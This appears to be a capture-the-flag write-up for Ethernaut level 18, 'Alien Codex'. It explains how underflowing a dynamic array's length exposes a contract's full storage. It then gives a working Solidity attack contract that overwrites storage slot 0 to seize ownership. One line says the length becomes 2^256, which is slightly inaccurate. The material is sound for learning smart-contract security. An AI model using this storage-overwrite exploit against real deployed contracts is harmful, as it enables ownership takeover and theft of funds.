 # Level 18: [Alien codex](https://ethernaut.openzeppelin.com/level/0x40055E69E7EB12620c8CCBCCAb1F187883301c30)

## Level objectives:
- Claim ownership of `Ownable` contract.

## Analysis
- The contract has a `retract` functon that modifies the length of the array.
- If we get this to underflow, the length of the array will become $2^256$.
- 2^256 happens to be the total storage capacity of a contract.
- So if we get the length to underflow, we can access the storage of the entire contract.

## Code:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

interface AlienCodex {
    function make_contact() external;
    function retract() external;
    function revise(uint, bytes32) external;
}

contract AttackAlienCodex {
    AlienCodex victim = AlienCodex(0x5637DCB1477A62904a0CFd7E2B748b95109A499d);

    function attack() public {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        // we can't access the 0th slot from the owner var, we need to take advantage of the underflow and access it via the array.

        bytes32 bytesAddr = bytes32(uint256(uint160(0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4)));

        victim.make_contact();
        victim.retract();
        victim.revise(index, bytesAddr);
    }
}
```
